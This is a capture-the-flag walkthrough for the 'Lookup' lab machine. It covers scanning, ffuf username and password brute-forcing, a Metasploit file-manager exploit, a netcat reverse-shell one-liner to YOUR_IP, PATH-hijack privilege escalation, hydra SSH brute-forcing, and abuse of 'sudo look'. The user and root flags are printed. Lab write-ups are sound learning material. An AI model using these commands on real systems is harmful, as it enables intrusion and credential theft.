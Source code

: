 # Lookup Writeup

- Let's start with a nmap scan `nmap -p- 10.10.78.164`
    - `-p-` denotes search for all ports

    ![1](./images/1.png)

- Finding more information on the discovered ports - `nmap -sC -sV -p 22,80 10.10.78.164`
    - `-sC` is used to perform a script scan
    - `-sV` is used to detect the versions of the running services.

    ![2](./images/2.png)

***

- Now let's look into the webpage - `http://10.10.78.164` [for this to open on your browser, make sure to add `10.10.78.164     lookup.thm` to */etc/hosts* file]

- Running `dirb` to find any directories which we can use `dirb http://10.10.78.164 -w /usr/share/wordlists/rockyou.txt`
- No directory found

    ![3](./images/3.png)

***

- On logging in, we get different responses for different username and password
    - *admin:admin*

    ![4](./images/4.png)

    - *test:test*

    ![5](./images/5.png)

- So from the above we can conclude that this login page validates the username as well. Now we can try figuring out valid user names exploiting this functionality.

- Let's use the tool called `ffuf`
    ``` bash
    ffuf -H 'Content-Type: application/x-www-form-urlencoded' -u 'http://lookup.thm/login.php' -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d 'username=FUZZ&password=test' -mc all -t 100 -fs 74 
    ```
        - `mc` used to match HTTP status codes
        - `t` number of concurrent threads
        - `fs` Filter HTTP response size
    - We get another username *jose*

    ![6](./images/6.png)

- Now let's try getting the password for *jose*

    ```bash
    ffuf -H 'Content-Type: application/x-www-form-urlencoded' -u 'http://lookup.thm/login.php' -w /usr/share/wordlists/rockyou.txt -X POST -d 'username=jose&password=FUZZ' -mc all -t 100 -fs 62
    ```
    We get the password

    ![7](./images/7.png)

**Since I restarted the machine the IP address is changed to - 10.10.65.107**

***

- On logging in using the gathered credentials *jose:password123*, we are navigated to *files.lookup.thm*, let's add this as well in the */etc/hosts* file

    ![8](./images/8.png)

- Searching about the software we find it is a *web file manager*

    ![9](./images/9.png)

- Using `msfconsole` we can see if there is any exploit for this version of the software

    ![10](./images/10.png)
    ![11](./images/11.png)

- Now that we got a meterpreter connection, we can get the shell by typing the command `shell` and as this shell is unstable let us transfer it to out attacking machine:
    - On the unstable shell
    `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc YOUR_IP 4444 >/tmp/f`    

    - On attacking system
    `nc -lvnp 4444`
    ```bash
    # once the connection is extablished to stabilise the shell we can execute the following
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    export TERM=xterm 
    # Background the shell with “CTRL + Z”.
    stty raw -echo; fg
    ```
- Once we have a stable shell let's check what are the processes that can be run as sudo user `find / -type f -perm -u=s -ls 2>/dev/null`

    ![12](./images/12.png)

    - Let's run */usr/sbin/pwm*

    ![13](./images/13.png)
    - Here it runs the `id` command and checks for the .passwords file.

- Let's manipulate this by doing a path hijack.
    - As this id command is not getting the actual path we can use this to out advantage

    ![14](./images/14.png)

    - When the `/usr/sbin/pwm` file runs it searches for `id` binary from the `PATH` variable, so by adding our folder [/tmp in this case as it is writable by all users] which contains a different file called `id` we can succesfully escalate our user privilege. 

    ![15](./images/15.png)

- Store these passwords in a seperate file and we can use this to get bruteforce our way in. Using hydra we can try getting the password for ssh `hydra -l think -P passwords lookup.thm -vV ssh -f`

    ![16](./images/16.png)

    - Now with the credentials we can login to ssh `ssh think@lookup.thm`

    ![17](./images/17.png)

1. What is the user flag?
> 38375fb4dd8baa2b2039ac03d92b820e

***

- Now from this user let us escalate our privilege to root user. By running the `sudo -l` command we can see what commands can be run by think as sudo user.

    ![18](./images/18.png)

- So the look command workds similar to grep

    ![19](./images/19.png)

    - Let's use this command to find the root flag, which is mostly located in `/root/root.txt`. But we are not sure of which exact number is there in the file content. So we can create a loop for this task.
    ```bash
    for i in {1..9}; do sudo look $i /root/root.txt; done
    ```

    ![20](./images/20.png)

2. What is the root flag?
> 5a285a9f257e45c68bb6c9f9f57d18e8
